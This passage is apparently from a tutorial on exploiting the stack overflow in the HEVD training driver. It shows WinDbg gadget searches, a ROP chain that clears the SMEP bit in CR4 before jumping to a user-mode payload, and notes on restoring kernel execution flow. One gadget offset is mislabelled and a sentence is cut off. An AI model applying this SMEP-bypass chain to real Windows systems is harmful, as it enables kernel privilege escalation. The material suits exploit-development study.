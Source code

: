 ```
fffff802`cdb76b7e pop     rdx
fffff802`cdb76b7f pop     rax
fffff802`cdb76b80 pop     rcx       // Second gadget!
fffff802`cdb76b81 ret

kd> ? fffff802`cdb76b80 - nt
Evaluate expression: 1514368 = 00000000`00171b80
```
**Gadget #2 is `pop rcx` at `nt + 0x171b80`!**

ROP chain will be the following:

```
+------------------+
|pop rcx; ret      |	// nt + 0x424065
+------------------+
|value of rcx      |	// ? @cr4 & FFFFFFFF`FFEFFFFF
+------------------+
|mov cr4, rcx; ret |	// nt + 0x424065
+------------------+
|addr of payload   |	// Available from user-mode
+------------------+
```
It's extremely important to notice that writing more than 8 bytes starting the RIP offset means the next stack frame gets corrupted. Returning to 

### 3. Restoring execution flow

Let's take one more look on the stack call BEFORE the `memset` call:

```
Breakpoint 1 hit
HEVD!TriggerStackOverflow:
fffff801`71025640 mov     qword ptr [rsp+8],rbx
kd> k
 # Child-SP          RetAddr           Call Site
00 ffff830f`5a53a798 fffff801`7102572a HEVD!TriggerStackOverflow [c:\hacksysextremevulnerabledriver\driver\stackoverflow.c @ 65] 
01 ffff830f`5a53a7a0 fffff801`710262a5 HEVD!StackOverflowIoctlHandler+0x1a [c:\hacksysextremevulnerabledriver\driver\stackoverflow.c @ 125] 
02 ffff830f`5a53a7d0 fffff801`714b02d9 HEVD!IrpDeviceIoCtlHandler+0x149 [c:\hacksysextremevulnerabledriver\driver\hacksysextremevulnerabledriver.c @ 229] 
03 ffff830f`5a53a800 fffff801`7190fefe nt!IofCallDriver+0x59
04 ffff830f`5a53a840 fffff801`7190f73c nt!IopSynchronousServiceTail+0x19e
```

#### Pitfall 1: returning to `StackOverflowIoctlHandler+0x1a`

Although adjusting the stack to return to this call works, a parameter on the stack (`Irp`'s address) gets overwritten thanks to the ROP chain and is not recoverable as far as I know. This results in an access violation later on.

Assembly at `TriggerStackOverflow+0xbc`:
```
fffff801`710256f4 lea     r11,[rsp+820h]
fffff801`710256fc mov     rbx,qword ptr [r11+10h]	// RBX should contain Irp's address, this is now overwritten to the new cr4 value
```
